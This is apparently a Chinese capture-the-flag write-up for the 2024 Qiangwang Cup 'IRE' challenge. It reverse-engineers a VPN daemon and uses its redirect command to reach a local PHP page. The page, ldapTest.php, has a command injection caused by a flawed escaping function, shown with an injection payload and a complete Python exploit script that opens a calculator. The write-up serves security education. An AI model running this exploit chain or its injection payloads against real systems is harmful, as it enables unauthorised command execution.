





# S8强网杯 RealWorld部分 IRE详解-先知社区

> **来源**: https://xz.aliyun.com/news/16121  
> **文章ID**: 16121

---

## 赛题环境配置

拿到赛题:



描述:  
题目信息：  
题目名称：ire  
旗帜名称：IRE  
题目描述：附件中给出了一台Ubunt64-bit 22.04.5 LTS虚拟机，环境和展示区相同但密码不同。虚拟机/home/game目录中有start.sh脚本，选手可以执行start.sh脚本启动题目环境（提供的虚拟机中已经通过服务启动）。请挖掘并利用相关程序的漏洞，实现任意命令执行，若靶机弹出计算器则挑战成功。  
附件信息：虚拟机用户名和口令为game/game  
台上拓扑：交换机同时连接选手攻击机和靶机。靶机中使用vmware（最新版）启动附件中的Ubunt64-bit 22.04.5 LTS环境，并以game用户登录。  
展示目标：选手携带自己的攻击机上台，接入靶机所在网段开始进行脆弱性检测，若在规定时间内靶机弹出计算器，即为挑战成功。

展示时操作人员操作步骤：  
1） 回复虚拟机快照到初始状态；  
2） 测试网络是否能够连通，如网络通联状况正常则可示意选手开始，同时开始计时；  
3） 成功或超时后，关闭虚拟机、回复虚拟机快照到初始状态。

配置好vmtool,后就可以开始正式的分析了!  
成果启动后,开始寻找漏洞!





## 开始分析目标文件

开始分析:

```
#!/bin/bash
LD_PRELOAD=/home/game/libstrongswan.so.0 /home/game/sbgwd

```

### 查看服务器所开启的端口

```
game@box:~/Desktop$ sudo su
[sudo] password for game: 
root@box:/home/game/Desktop# ss -tuln
Netid State  Recv-Q Send-Q         Local Address:Port  Peer Address:PortProcess
udp   UNCONN 0      0                    0.0.0.0:5353       0.0.0.0:*          
udp   UNCONN 0      0              127.0.0.53%lo:53         0.0.0.0:*          
udp   UNCONN 0      0      192.168.126.145%ens33:68         0.0.0.0:*          
udp   UNCONN 0      0                    0.0.0.0:45263      0.0.0.0:*          
udp   UNCONN 0      0                       [::]:5353          [::]:*          
udp   UNCONN 0      0                       [::]:60013         [::]:*          
tcp   LISTEN 0      4096           127.0.0.53%lo:53         0.0.0.0:*          
tcp   LISTEN 0      128                127.0.0.1:631        0.0.0.0:*          
tcp   LISTEN 0      4096                 0.0.0.0:45443      0.0.0.0:*          
tcp   LISTEN 0      511                127.0.0.1:80         0.0.0.0:*          
tcp   LISTEN 0      128                    [::1]:631           [::]:*          
root@box:/home/game/Desktop# ps aux | grep sbgwd
root        1014  0.0  0.2 180428  8032 ?        Sl   14:01   0:00 /home/game/sbgwd
root        2327  0.0  0.0   6612  2260 pts/1    S+   14:05   0:00 grep --color=auto sbgwd

```

### 寻找到目标程序的启动方案

先看下是如何启动的,通过系统服务

```
root@box:/etc# grep -r "start.sh"
systemd/system/myservice.service:ExecStart=/home/game/start.sh
root@box:/etc# cat systemd/system/myservice.service
[Unit]
Description=My Custom Script Service
After=network.target

[Service]
ExecStart=/home/game/start.sh
Restart=on-failure
User=root
Group=root

[Install]
WantedBy=multi-user.target

```

```
root@box:/home/game# systemctl status myservice.service
● myservice.service - My Custom Script Service
     Loaded: loaded (/etc/systemd/system/myservice.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-12-09 17:01:40 UTC; 1min 53s ago
   Main PID: 3991 (start.sh)
      Tasks: 6 (limit: 4514)
     Memory: 1.7M
        CPU: 7ms
     CGroup: /system.slice/myservice.service
             ├─3991 /bin/bash /home/game/start.sh
             └─3992 /home/game/sbgwd

Dec 09 17:01:40 box sbgwd[3992]: IPv6 enabled ens33
Dec 09 17:01:40 box sbgwd[3992]: try bind interface ANY
Dec 09 17:01:40 box sbgwd[3992]: socket count 1
Dec 09 17:01:40 box sbgwd[3992]: 0 : family 2
Dec 09 17:01:40 box sbgwd[3992]: create_socket_and_bind : 6
Dec 09 17:01:40 box sbgwd[3992]: listen socket count 1
Dec 09 17:01:40 box sbgwd[3992]: listen socket 6
Dec 09 17:01:40 box sbgwd[3992]: current_clients=0 max_clients=0
Dec 09 17:01:40 box sbgwd[3992]: 2.0.0.113 (20231117) ready
Dec 09 17:01:40 box sbgwd[3992]: accept socket 6

```

```
root@box:/home/game# systemctl stop myservice.service
root@box:/home/game# systemctl status myservice.service
○ myservice.service - My Custom Script Service
     Loaded: loaded (/etc/systemd/system/myservice.service; enabled; vendor preset: enabled)
     Active: inactive (dead) since Mon 2024-12-09 17:06:36 UTC; 1s ago
    Process: 3991 ExecStart=/home/game/start.sh (code=killed, signal=TERM)
   Main PID: 3991 (code=killed, signal=TERM)
        CPU: 9ms

Dec 09 17:01:40 box sbgwd[3992]: 0 : family 2
Dec 09 17:01:40 box sbgwd[3992]: create_socket_and_bind : 6
Dec 09 17:01:40 box sbgwd[3992]: listen socket count 1
Dec 09 17:01:40 box sbgwd[3992]: listen socket 6
Dec 09 17:01:40 box sbgwd[3992]: current_clients=0 max_clients=0
Dec 09 17:01:40 box sbgwd[3992]: 2.0.0.113 (20231117) ready
Dec 09 17:01:40 box sbgwd[3992]: accept socket 6
Dec 09 17:06:36 box systemd[1]: Stopping My Custom Script Service...
Dec 09 17:06:36 box systemd[1]: myservice.service: Deactivated successfully.
Dec 09 17:06:36 box systemd[1]: Stopped My Custom Script Service.

```

### 检查系统日志了解sbgwd的运行

手动启动服务:

```
root@box:/home/game# LD_PRELOAD=/home/game/libstrongswan.so.0 strace -i /home/game/sbgwd

```

```
#可以找到的输出,权限不足直接开启su
[00007f6c630e65b4]openat(AT FDCWD,"/etc/ssl/private/ssgw ssl.key",O RDONLY)=-1
EACCES (Permission denied)

#发现端口已经被启动
[00007f61e4ef74bb] bind(6, {sa_family=AF_INET, sin_port=htons(45443), sin_addr=inet_addr("0.0.0.0")}, 16) = -1 EADDRINUSE (Address already in use)

```

直接通过查看日志来定位程序运行的位置:

```
root@box:/home/game# sudo journalctl -f

```



## 开始逆向分析sbgwd程序

将二进制文件拿出来后就可以开始IDA逆向分析了!

```
__int64 __fastcall main(unsigned int a1, char **a2, char **a3)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS KEYPAD CTRL-"+" TO EXPAND]

  memset(&stru_23340, 0, 0x908uLL);
  ptr = 0LL;
  ifa = 0LL;
  ai = 0LL;
...
  library_deinit();
  syslog(7, "exit");
  closelog();
  return v5;
}

```

### 逆向分析出该程序为VPN,锁定vpn的密钥和证书

难点是容易被误导和命令执行  
通过逆向后发现程序是一个 vpn 程序，但是需要先利用题目提供的 key 和 cert 进行交互  
sub\_B9E0 函数是主要函数，在这里实现了数据读取和 VPN 菜单功能

```
inet_ntop(8 * (ptr->opt5_flag == 1) + 2, &ptr[1], buf, 0x2Eu);
    switch ( __ROL2__(*(_WORD *)ptr->opt, 8) )
    {
      case 0:
        syslog(7, "%lx MAJOR_COMMAND_AUTH", v13);
        return (unsigned int)VPN_AUTH(a1, a4, a5, a6, buf, ptr, 0);// LOGIN
      case 1:
        syslog(7, "%lx MAJOR_COMMAND_LOG", v13);
        return (unsigned int)sub_B8D0((__int64)ptr, a6, buf);// Lgout
      case 2:
        v17 = -1;
        syslog(7, "%lx MAJOR_COMMAND_POLICY", v13);
        if ( !ptr->opt7_flag )
          return (unsigned int)COMMAND_POLICY(a1);
        return v17;
      case 3:
        syslog(7, "%lx MAJOR_COMMAND_SESSION", v13);
        v20 = __ROL2__(ptr->opt7_flag, 8);
        if ( v20 )
        {
          if ( v20 == 1 )
            v17 = SESSION_1(a1, ptr);
          else
LABEL_29:
            v17 = -1;
        }
        else
        {
          v17 = SESSION_2(a1);
        }
        break;
      case 5:
        syslog(7, "%lx MAJOR_COMMAND_SET_REDIRECT_INFO", v13);
        v17 = SET_REDIRECT(ptr, a7);            // 重定向信息命令 栈溢出漏洞
        syslog(7, "%lx MAJOR_COMMAND_SET_REDIRECT_INFO socket... %d", v13, *a7);
        return v17;
      case 6:
        syslog(7, "%lx MAJOR_COMMAND_VPN_AUTH", v13);
        return (unsigned int)VPN_AUTH(a1, a4, a5, a6, buf, ptr, 1);// VPN 认证
      case 7:
        syslog(7, "%lx MINOR_COMMAND_GET_VERSION", v13);// 获取版本
        return (unsigned int)GET_VERSION(a1, ptr);
      default:
        syslog(7, "%lx unknown command...", v13);
        goto LABEL_29;
    }

```

上面是功能菜单，通过逆向，大概确定其发送的信息格式如下

```
b'SlSp' + p32(data_size) + p8(version) + p8(VPN_auth_flag) + b'b'*10 + p16(opt) + p16(opt7_flag) + p32(ip)
```

其中 5 功能存在栈溢出漏洞

```
v5 = strchr(v4, ':');
  v6 = v5;
  if ( v5 )
  {
    if ( v5 != v4 )
      memcpy(host, v4, v5 - v4); // 栈溢出
    syslog(7, "redirect host %s", (const char *)host);
    port = strtol(v6 + 1, 0LL, 10);
    syslog(7, "redirect port %d", port);
    v8 = proxy_connect((char *)host, port, (int)qword_234C8);
    *a2 = v8;
    syslog(7, "redirect socket %d", v8);
    return 3LL;
  }

```

但是无法泄露内存地址无法进行正常攻击  
锁定

### 密钥和证书用于联通VPN隧道

可以在日志里面找到:

```
...
Dec 09 17:07:41 box sbgwd[4030]: listen_port : 45443
Dec 09 17:07:41 box sbgwd[4030]: private_key_path : /etc/ssl/private/ssgw_ssl.key
Dec 09 17:07:41 box sbgwd[4030]: server_cert_path : /etc/ssl/certs/ssgw_cert.pem
...

```

## 开始Web渗透

### 发现连接vpn后可以访问80端口的web服务

但是后面发现 5 功能是 VPN 的连接功能，可以连接到靶机中只有本地开放的端口



### 发现存在命令注入漏洞在php

发现开放了端口,可以找到这个php文件,存在漏洞!

```
root@box:/home/game# find / -name ldapTest.php

/var/www/html/ldapTest.php
root@box:/home/game# cat /var/www/html/ldapTest.php
<?php

function getSchemaDN($uri,$tls) {
    $cmd = sprintf(" ldapsearch -x -LLL -o ldif-wrap=no -H %s %s -s base subschemaSubentry",$uri,$tls);
    $ldap_search = shell_exec($cmd);
    preg_match('/subschemaSubentry:\s*(.*)/', $ldap_search, $match);
    if(count($match) > 0) {
        return trim($match[1]);
    }

    return false;
}

```

而本地 80 则开放了一个端口服务，其中的 ldapTest.php 存在命令执行漏洞

代码：

```
<?php

function getSchemaDN($uri,$tls) {
    $cmd = sprintf(" ldapsearch -x -LLL -o ldif-wrap=no -H %s %s -s base subschemaSubentry",$uri,$tls);
    $ldap_search = shell_exec($cmd);
    preg_match('/subschemaSubentry:\s*(.*)/', $ldap_search, $match);
    if(count($match) > 0) {
        return trim($match[1]);
    }

    return false;
}

function isAttrExists($attr,$uri,$tls,$base,$user,$pass) {
    $cmd = sprintf("ldapsearch -o ldif-wrap=no -H %s %s -x -D %s -b \"%s\" -w %s -s base -a always \"(objectClass=*)\" \"attributeTypes\"",$uri,$tls,$user,$base,$pass);
    $ldap_search = shell_exec($cmd);
    $attr_string_array = explode(")",$ldap_search);
    $attr_array = array();
    foreach($attr_string_array as $key => $val) {
        preg_match('/attributeTypes:.*NAME \(?\s?\'(.*?)\'.*/', $val, $match);
        if(count($match) > 0) {
            if(strcasecmp($attr,$match[1]) == 0) {
                return true;
            }
        }
    }

    return false;
}

function getPassword() {
    if($password == "") {
        return "";
    }

    return $password;
}

function escapeshellarg_jp($p_arg) {
    $escape_flg = false;
    if(preg_match("/^'(.*)'$/", $p_arg, $matches) === 1) {
        $p_arg = $matches[1];
    }

    $offset = -1;
    while(++$offset < strlen($p_arg)) {
        $char1byte = $p_arg[$offset];
        if($escape_flg == false && $char1byte == "\\") {
            $escape_flg = true;
            continue;
        }
        if($escape_flg == false && $char1byte == "'") {
            $p_arg = substr($p_arg, 0, $offset) . "\\" . substr($p_arg, $offset);
            $escape_flg = true;
            continue;
        }

        if($escape_flg == true) {
            $escape_flg = false;
            continue;
        }
    }
    $p_arg .= ($escape_flg == true) ? "\\" : '';
    $p_arg  = "'$p_arg'";

    return $p_arg;
}

function getResultMessage($result) {
    $result_array = array();
    if(strlen($result) == 0) {
        $result_array["code"] = 4;
        $result_array["message"] = "<label class=\"err_msg\">" . __("Ldap_Server_Auth_Failed_Item") . "</label><br/>";
    } elseif(strpos($result, 'result: 0 Success') === false) {
        $result_array["code"] = 3;
        $result_array["message"] = "<label class=\"err_msg\">" . __("Inavlid_Search_Condition_Item") . "</label><br/>";
    } elseif(strpos($result, '# numEntries: ') === false) {
        $result_array["code"] = 2;
        $result_array["message"] = "<label class=\"err_msg\">" . __("Ldap_User_Not_Found_Item") . "</label><br/>";
    } else {
        $result_array["code"] = 0;
        $result_array["message"] = "<label class=\"attention\">" . __("Ldap_Test_Success_Item") . "</label><br/>";
    }

    return $result_array;
}

$request = json_decode($_POST["myData"]);
$response = array();
$index = 0;
foreach($request->servers as $server) {
    if($server->host != "") {
        $url = escapeshellarg(($server->tls == true ? "ldaps" : "ldap") ."://$server->host:$server->port");
        $ldap_test_filter = str_replace("%s", $request->target, $request->filter);

        $dn = escapeshellarg_jp($request->dn);
        $password = escapeshellarg_jp($request->password);
        $base = escapeshellarg_jp($request->base);
        $filter = escapeshellarg_jp($ldap_test_filter);
        $subtree = escapeshellarg_jp($request->subtree);
        $attr = escapeshellarg_jp($request->target_attr);
        if($request->password == "") {
            $password = escapeshellarg_jp(getPassword());
        }

        $ldap_search = shell_exec("ldapsearch -A -x -H $url " .($server->tls == true ? "-Z " : ""). "-D $dn -w $password -b $base -s $subtree $filter");
        $response[$index] = getResultMessage($ldap_search);
        if($response[$index]["code"] == 0) {
            $schema = getSchemaDN($url,$server->tls == true ? "-Z " : "");
            if(!$schema) {
                $response[$index]["code"] = 5;
                $response[$index]["message"] = "<label class=\"err_msg\">" . __("Ldap_Check_Attr_Failed_Item") . "</label><br/>";
            } else {
                $found = isAttrExists($request->target_attr,$url,$server->tls == true ? "-Z " : "",$schema,$dn,$password); // for OpenLDAP
                if(!$found) {
                    $response[$index]["code"] = 1;
                    $response[$index]["message"] = "<label class=\"err_msg\">" . __("Ldap_Attr_Not_Found_Item") . "</label><br/>";
                }
            }
        }
    }

    $index++;
}
header('Content-Type: application/json');
echo json_encode($response);
?>

```

漏洞点：

```
$request = json_decode($_POST["myData"]);
$response = array();
$index = 0;
echo "foreash\n";
echo "foreash".$request;
foreach($request->servers as $server) {
    echo "server-host\n";
    echo $server->host;
    if($server->host != "") {
        $url = escapeshellarg(($server->tls == true ? "ldaps" : "ldap") ."://$server->host:$server->port");
        $ldap_test_filter = str_replace("%s", $request->target, $request->filter);

        $dn = escapeshellarg_jp($request->dn);
        $password = escapeshellarg_jp($request->password);
        $base = escapeshellarg_jp($request->base);
        $filter = escapeshellarg_jp($ldap_test_filter);
        $subtree = escapeshellarg_jp($request->subtree);
        $attr = escapeshellarg_jp($request->target_attr);
        if($request->password == "") {
            $password = escapeshellarg_jp(getPassword());
        }

        $ldap_search = shell_exec("ldapsearch -A -x -H $url " .($server->tls == true ? "-Z " : ""). "-D $dn -w $password -b $base -s $subtree $filter");
        $response[$index] = getResultMessage($ldap_search);
        if($response[$index]["code"] == 0) {
            $schema = getSchemaDN($url,$server->tls == true ? "-Z " : "");
            if(!$schema) {
                $response[$index]["code"] = 5;
                $response[$index]["message"] = "<label class=\"err_msg\">" . __("Ldap_Check_Attr_Failed_Item") . "</label><br/>";
            } else {
                $found = isAttrExists($request->target_attr,$url,$server->tls == true ? "-Z " : "",$schema,$dn,$password); // for OpenLDAP
                if(!$found) {
                    $response[$index]["code"] = 1;
                    $response[$index]["message"] = "<label class=\"err_msg\">" . __("Ldap_Attr_Not_Found_Item") . "</label><br/>";
                }
            }
        }
    }

    $index++;
}

```

其中的 escapeshellarg\_jp 是出题人自己实现的，可以进行绕过，这是因为字符串外面虽然会被加上 '，我们输入字符串中的 ' 也会被转义成 \' ，但是还是能够起到结束前面第一个 ' 包含字符串的作用，并利用 # 注释后面的 shell 命令，就可以进行任意命令执行

比如控制 password 为

```
';ls;#
```

这样 password 会被转化成 `\\';ls;#` 就成了 `xx '\\';` ls; #' 就可以执行 ls 命令了

# 分析完毕开始打通它上py脚本

exp

```
import socket
import ssl
from pwn import *
import time
import json

def create_ssl_context(certfile, keyfile):
    context = ssl.create_default_context(ssl.Purpose.SERVER_AUTH)
    context.check_hostname = False 
    context.verify_mode = ssl.CERT_NONE
    context.load_cert_chain(certfile=certfile, keyfile=keyfile) 
    return context

def create_ssl_connection(hostname, port, context):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ssl_sock = context.wrap_socket(sock, server_hostname=hostname)
    ssl_sock.connect((hostname, port))
    return ssl_sock

hostname = '192.168.128.137'
port = 45443

data = '''username=admin'";gnome-calculator;"test1";"&password=123'''
content_length = len(data)

request = f"POST /login.php HTTP/1.1\r\n"
request += f"Host: {hostname}\r\n"
request += "Content-Type: application/x-www-form-urlencoded\r\n"
request += f"Content-Length: {content_length}\r\n"
request += "Connection: close\r\n"
request += "\r\n"
request += data

print(request.encode())

def main():
    certfile = './csr'
    keyfile = './key'

    ssl_context = create_ssl_context(certfile, keyfile)

    print(f'Connecting to {hostname}:{port}')

    ssl_sock = create_ssl_connection(hostname, port, ssl_context)

    try:
        # p32(data_size) + p8(version) + p8(VPN_auth_flag) + b'b'*10 + p16(opt) + p16(opt7_flag) + p32(ip)
        data = b''
        #data += b'g'*(0xa8 + 0xc) + p8(0xd1) + b':'
        data += b'a'*0x10
        data += b'127.0.0.1:80'

        pl = b'SlSP' + p32(len(data),endian='big') + p8(1) + p8(0) + b'b'*5 + p8(1) + b'b'*4 + p16(5, endian='big')+ p16(0x1, endian='big') #+ socket.inet_pton(socket.AF_INET, '192.168.128.137')
        pl += data

        print('pl size -> ' + hex(len(pl)))
        print('pl hex -> ' + pl.hex())
        ssl_sock.sendall(pl)

        sleep(1)
        pl = request.encode()
        ssl_sock.sendall(pl)

        response = ssl_sock.recv(4096)
        response += ssl_sock.recv(4096)

        print(b'response -> ' + response)
        #print(response.decode())


    finally:
        ssl_sock.close()

if __name__ == '__main__':
    main()

```
